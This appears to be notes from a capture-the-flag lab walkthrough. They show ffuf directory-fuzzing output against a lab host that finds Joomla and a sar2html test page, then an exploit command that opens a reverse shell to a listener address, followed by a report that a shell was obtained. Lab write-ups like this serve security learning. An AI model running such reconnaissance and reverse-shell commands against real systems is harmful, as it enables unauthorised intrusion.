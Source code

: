 [[ffuf]] scan:
```ffuf
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.66.226/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 214ms]
    * FUZZ: manual

[INFO] Adding a new job to the queue: http://10.10.66.226/manual/FUZZ

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 180ms]
    * FUZZ: joomla

[INFO] Adding a new job to the queue: http://10.10.66.226/joomla/FUZZ

[Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 195ms]
    * FUZZ: 

[Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 182ms]
    * FUZZ: server-status
```

[[ffuf]] scan with /dirb/common.txt:
```bash
/_test
```

- `/_test` contained a page about *sar2html*
	- This page has an exploit that can open a reverse shell.


---

# Exploitation
## Reverse Shell for sar2HTML
- Ran exploit with:
```bash
python sar2HTMLshell.py -ip 10.10.196.156/joomla/_test -rip 10.13.0.100:9001
```
- Success we have a shell

---